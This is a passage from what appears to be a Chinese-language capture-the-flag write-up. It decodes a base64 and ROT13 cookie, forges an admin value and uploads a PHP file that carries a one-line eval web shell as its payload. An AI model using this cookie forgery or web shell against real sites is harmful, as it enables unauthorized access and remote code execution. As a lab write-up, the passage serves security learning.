 然后抓包发现cookie参数有问题

![](img/45ca19886e9d8dc6b01e7417382d08e4.png)

猜测是base64编码，拿去解码得

![](img/8ed43678f9874091d87e1b8cb68b4d81.png)

是Rot13，运行脚本解码得到guest，尝试将guest换成admin用脚本进行Rot13加密得到Zjo1OiJucXp2YSI7，再重新放入cookie中

![](img/5d2b3e15ce31864d7186a953a713f702.png)

可以看到已经成功登陆并且说可以上传，旁边有一条注释

 `所以将请求包改成POST形式，然后输入

```
filename=2.php&data[]=<?php eval($_POST['a']);?>
```

再次提交

